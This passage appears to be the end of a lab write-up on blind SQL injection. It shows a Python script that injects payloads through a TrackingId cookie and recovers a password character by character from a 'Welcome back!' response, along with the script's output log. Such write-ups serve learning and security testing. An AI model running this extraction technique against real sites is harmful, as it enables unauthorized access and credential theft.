        headers = {
            'Host': host,
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36',
            'Cookie': f"TrackingId=0mGvDkaYVinRQpOp{payload}; session=Lyyxp83k7vKRrGE9vRGWlir0GgXqn2qO",
        }

        print('Attempting: ', attempt)

        res = requests.get(
            f'https://{host}/',
            headers=headers,
            verify=False,
        )

        if res.content.find(b"Welcome back!") != -1:
            formed_password += char
            last_found_char = char
            print("Formed: ", formed_password)
            break
        else:
            last_found_char = ""
```

```
Formed:  1r5vutropl48t3d7h2u
Attempting:  1r5vutropl48t3d7h2u0
Attempting:  1r5vutropl48t3d7h2u1
Attempting:  1r5vutropl48t3d7h2u2
Attempting:  1r5vutropl48t3d7h2u3
Attempting:  1r5vutropl48t3d7h2u4
Attempting:  1r5vutropl48t3d7h2u5
Attempting:  1r5vutropl48t3d7h2u6
Attempting:  1r5vutropl48t3d7h2u7
Attempting:  1r5vutropl48t3d7h2u8
Attempting:  1r5vutropl48t3d7h2u9
Attempting:  1r5vutropl48t3d7h2ua
Attempting:  1r5vutropl48t3d7h2ub
Attempting:  1r5vutropl48t3d7h2uc
Attempting:  1r5vutropl48t3d7h2ud
Attempting:  1r5vutropl48t3d7h2ue
Attempting:  1r5vutropl48t3d7h2uf
Attempting:  1r5vutropl48t3d7h2ug
Formed:  1r5vutropl48t3d7h2ug
Attempting:  1r5vutropl48t3d7h2ug0
Attempting:  1r5vutropl48t3d7h2ug1
...
```

It kept trying a last character, until it reached “z” and stopped the code’s execution, as none of the attempts was correct.



Although challenging, it was a fun lab. I’ll probably come back later to refactor that code.